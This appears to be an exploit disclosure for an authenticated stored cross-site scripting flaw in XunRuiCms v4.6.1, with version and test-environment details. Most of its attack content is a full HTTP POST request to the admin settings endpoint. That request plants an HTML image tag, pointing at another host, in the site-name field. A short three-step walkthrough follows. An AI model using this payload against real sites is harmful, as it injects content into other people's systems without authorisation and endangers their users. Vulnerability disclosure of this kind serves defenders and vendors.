


# XunRuiCms Stored XSS (Authenticated)
#### Exploit Title: XunRuiCms Stored XSS (Authenticated) 
#### Version：Xunrui CMS Public Edition v4.6.1
#### Google Dork: N/A
#### Date: 09/21/2023
#### Tested on：Apache2.4.39，Mysql5.7.26，PHP7.4.3
#### Software Link: https://www.xunruicms.com/down.php

#### Description：XunRuiCms has a storage type xss vulnerability when editing the project name in the project settings tab after logging into the management backend.

#### Payload used:
```
POST /admin6318a5072e99.php?c=site_config&m=index&page=0 HTTP/1.1
Host: 192.168.1.3
Content-Length: 443
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.3
Referer: http://192.168.1.3/admin6318a5072e99.php?c=site_config&m=index
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-TW;q=0.8,zh;q=0.7
Cookie: debug-view=show; debug-bar-tab=ci-database; debug-bar-state=minimized; xunruicms_a5e842945753ffb75ab7ca63139e9dc6=vjdmkfi37qmcrqgd9ctqpdo36dva028k; a5e842945753ffb75ab7ca63139e9dc6_member_uid=1; a5e842945753ffb75ab7ca63139e9dc6_member_cookie=030e05f644709f5674507604a947c7ef
Connection: close

is_form=1&is_admin=1&is_tips=&csrf_test_name=ce1a1cdb6e1e2870bc90e07fb0d624e2&page=0&data%5BSITE_INDEX_HTML%5D=0&data%5BSITE_CLOSE%5D=0&data%5BSITE_CLOSE_MSG%5D=%5Bxss_clean%5D&data%5BSITE_NAME%5D=%E6%88%91%E7%9A%84%E9%A1%B9%E7%9B%AE%3CImg+src%3Dhttp%3A%2F%2F127.0.0.1%3A8000%2Finfo.html%3E&data%5BSITE_LANGUAGE%5D=zh-cn&theme=0&data%5BSITE_THEME%5D=default&data%5BSITE_TEMPLATE%5D=default&data%5BSITE_TIMEZONE%5D=8&data%5BSITE_TIME_FORMAT%5D=
```

#### Example：

1、Log in to the management backend

2、
Find the project settings and edit the project name, write in  or .



<br />
3、Successfully accessed！




